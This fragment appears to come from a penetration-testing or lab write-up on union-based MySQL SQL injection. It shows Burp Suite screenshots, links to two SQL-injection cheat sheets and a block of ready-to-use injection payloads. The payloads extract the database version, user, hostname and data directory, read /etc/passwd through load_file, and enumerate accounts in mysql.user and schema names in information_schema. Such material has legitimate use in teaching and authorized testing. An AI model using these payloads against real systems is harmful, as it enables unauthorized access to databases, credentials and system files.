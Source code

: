 ![SQLi - player Burp union](images/sqli_player_burp_union.png)

- [mysql-sql-injection-practical-cheat-sheet](https://www.advania.co.uk/insights/blog/mysql-sql-injection-practical-cheat-sheet/)
- [mysql-sql-injection-cheat-sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)

```bash
' union all select version()-- -
' union all select user()-- -
' union all select @@hostname-- -
' union all select database()-- -
' union all select @@datadir-- -
' union all select load_file('/etc/passwd')-- -
' union all select user from mysql.user limit 1,1-- -
' union all select user from mysql.user limit 2,1-- -
' union all select user from mysql.user limit 3,1-- -
' union all select user from mysql.user limit 4,1-- -
' union all select user from mysql.user limit 5,1-- -
' union all select user from mysql.user limit 6,1-- -
' union all select schema_name FROM information_schema.schemata limit 1,1-- -
' union all select schema_name FROM information_schema.schemata limit 2,1-- -
' union all select schema_name FROM information_schema.schemata limit 3,1-- -
' union all select schema_name FROM information_schema.schemata limit 4,1-- -
```

![SQLi - Burp - Intruder](images/sqli_player_burp_intruder_arg.png)